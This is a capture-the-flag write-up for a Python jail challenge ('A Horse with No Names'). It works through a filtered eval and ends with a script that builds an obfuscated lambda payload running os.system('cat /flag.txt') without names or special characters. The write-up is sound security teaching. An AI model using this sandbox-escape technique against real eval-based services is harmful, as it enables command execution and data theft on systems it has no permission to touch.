

# A Horse with No Names

Categories: Jail/Python

Description:
> A Horse with No Names
>
>- 117 points
>
>"really confused horse in rembrandt style "
>
>
>Can you make it through the desert on [a horse with no names](https://www.youtube.com/watch?v=na47wMFfQCo)?
>
> `nc horse.chal.uiuc.tf 1337`
>
> [Dockerfile](resources/Dockerfile) [desert.py](resources/desert.py)

**Tags:** python, jail

## Solution

The source code of this challenge is pretty minimal

```python
#!/usr/bin/python3
import re
import random
horse = input("Begin your journey: ")
if re.match(r"[a-zA-Z]{4}", horse):
    print("It has begun raining, so you return home.")
elif len(set(re.findall(r"[\W]", horse))) > 4:
    print(set(re.findall(r"[\W]", horse)))
    print("A single horse cannot bear the weight of all those special characters. You return home.")
else:
    discovery = list(eval(compile(horse, "<horse>", "eval").replace(co_names=())))
    random.shuffle(discovery)
    print("You make it through the journey, but are severely dehydrated. This is all you can remember:", discovery)
```

Let's examine the requirements to reach the `eval` statement:

1. `re.match(r"[a-zA-Z]{4}", horse)` must return false. This means that our input must not start with exactly 4 alphabetic characters.
2. `len(set(re.findall(r"[\W]", horse))) > 4` must also return false. The `\W` is equivalent to `[^a-zA-Z0-9_]` according to the [documentation](https://docs.python.org/3/library/re.html#regular-expression-syntax).
  - So, for example, our input must contain `<=4` symbols, counting spaces also as symbols.
  - Underscores are excluded
3. `eval` evaluates a single expression, so we have to make our payload a single expression or make it multiline and wrap it under `exec`.
4. Our input is not directly evaluated. It is filtered through `.replace(co_names=()`.

*(One thing to keep in mind is that we can use as many numbers as we want. So, for example, we could have something like `arr[123567]` in our input.)*

The weirdest part here is the `.replace(co_names=()`. Let's examine the documentation about what `co_names` are:

* From the [data model documentation](https://docs.python.org/3/reference/datamodel.html) we figure out that: <br/> `co_names` is a tuple containing the names used by the bytecode
* From the [inspect module documentations](https://docs.python.org/3/library/inspect.html) we figure out that: <br/> `co_names`: tuple of names other than arguments and function locals

Let's also visualize this:

```python
horse='print("hello world" + str(1))'
code = compile(horse, "<horse>", "eval")
print(code.co_names)

# Out[14]: ('print', 'str')

modified_code = compile(horse, "<horse>", "eval").replace(co_names=())
eval(modified_code)

# Segmentation fault (core dumped)
```

Hmmm, if the `co_names` get replaced in the bytecode then we pretty certainly crash. But from the documentation of the inspect module above, we can see that arguments and function locals will not appear. So, let's test it:

```python
horse='lambda: print("hello world" + str(1))'
code = compile(horse, "<horse>", "eval")
print(code.co_names)

# Out[15]: ()
```

That's awesome! We cannot use a `def func():` inside an eval, but `lambda` functions work. So, let's try to construct a payload that will dump the flag within our lambda function.

```python
lambda: __builtins__.__import__("os").system("cat /flag")
```

Now, it is about gradually bypassing the restrictions.

### Bypassing `re.match(r"[a-zA-Z]{4}", horse)`

So, our payload must not start with exactly 4 characters. That's easy to do, we simply wrap our lambda function in parenthesis and also by the chance, invoke it:

```python
(lambda: __builtins__.__import__("os").system("cat /flag"))()
```

### Bypassing symbol restriction

We currently have too many symbols:

```log
$ python desert.modified.py
Begin your journey: (lambda: __builtins__.__import__("os").system("cat /flag"))()
symbols: . ( / : <space> " ) --- (7)
A single horse cannot bear the weight of all those special characters. You return home.
```

Let's analyze this:

* Parenthesis are requires (2 symbols) in order to have function calls
* Dot is required to access the appropriate fields. Another alternative would be `__dict__` and using square brackets `[ ]`, but this seems to be more costly in terms of symbols.
* Colon is required, otherwise we cannot have a lambda.

So, we have to get rid of: `/ <space> "`.

The space in front of the lambda can be removed, so: 

```python
(lambda:__builtins__.__import__("os").system("cat /flag"))()
```

Now, the remaining symbols in the payload are related to strings. However, we can come up with a neat way to generate them. Take for example "os". The character `o` can also be generated from the expression `open.__name__[0]` which is further equivalent to `open.__name__.__getitem__(0)`. Similarly, the character `s` can be generated as `set.__name__.__getitem__(0)`. So, we can generate the string "os" as:

```python
open.__name__.__getitem__(0)+set.__name__.__getitem__(0)
```

In this way, we avoided using the double quote special characters. We can also do the same for the space character and the `/`, by looking at the `__doc__` property which contains a lot of text. However, we introduced a new symbol, `+`. We can also replace that.

When we do `'a'+'b'`, this is equivalent to `'a'.__add__('b')`. So, for "os", we finally have

```python
open.__name__.__getitem__(0).__add__(set.__name__.__getitem__(0))

# Out[17]: 'os'
```

This can be a really tedious process, so let's automate it:

```python
def generator(cmd):
    # Make sure to use the same python version as the target when building the mapping.
    # Target uses Python 3.8.10
    mapping = {
        'o': "open.__name__.__getitem__(0)",
        's': "set.__name__.__getitem__(0)",
        'c': "chr.__name__.__getitem__(0)",
        'h': "hash.__name__.__getitem__(0)",
        'e': "eval.__name__.__getitem__(0)",
        'a': "abs.__name__.__getitem__(0)",
        'd': "divmod.__name__.__getitem__(0)",
        'f': "float.__name__.__getitem__(0)",
        'l': "list.__name__.__getitem__(0)",
        'g': "globals.__name__.__getitem__(0)",
        't': "type.__name__.__getitem__(0)",
        'x': "hex.__name__.__getitem__(2)",
        ' ': "str(hash).__getitem__(9)",
        '-': "str(hash).__getitem__(6)",
        '.': "hash.__doc__.__getitem__(151)",
        '1': "dict.__doc__.__getitem__(361)",
        '/': "divmod.__doc__.__getitem__(20)",
    }
    for k,v in mapping.items():
        assert(k == eval(v))
    
    payload=''
    for ch in cmd:
        encoded_ch = mapping[ch]
        if len(payload) == 0:
            payload = encoded_ch
        else:
            payload += f".__add__({encoded_ch})"
    assert(eval(payload) == cmd)
    return payload

horse = f"(lambda:__builtins__.__import__({generator('os')}).system({generator('cat /flag.txt')}))()"
print(horse)
```

So, let's try out generate payload on the remote:



And we got the flag!

`uiuctf{my_challenges_have_abandoned_any_pretense_of_practical_applicability_and_im_okay_with_that}`
